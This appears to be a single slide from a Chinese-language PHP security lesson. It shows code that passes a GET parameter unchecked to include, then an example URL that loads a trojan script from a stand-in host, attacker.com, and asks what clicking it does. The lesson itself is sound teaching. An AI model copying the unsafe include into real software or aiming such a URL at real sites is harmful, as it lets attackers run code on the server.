

# 利用案例
if($_GET[page]) {
	include $_GET[page];
    } else {
	include "home.php";
}
点击下面链接会发生什么?
http://abc-app.com/example.php?page=http://attacker.com/muma.php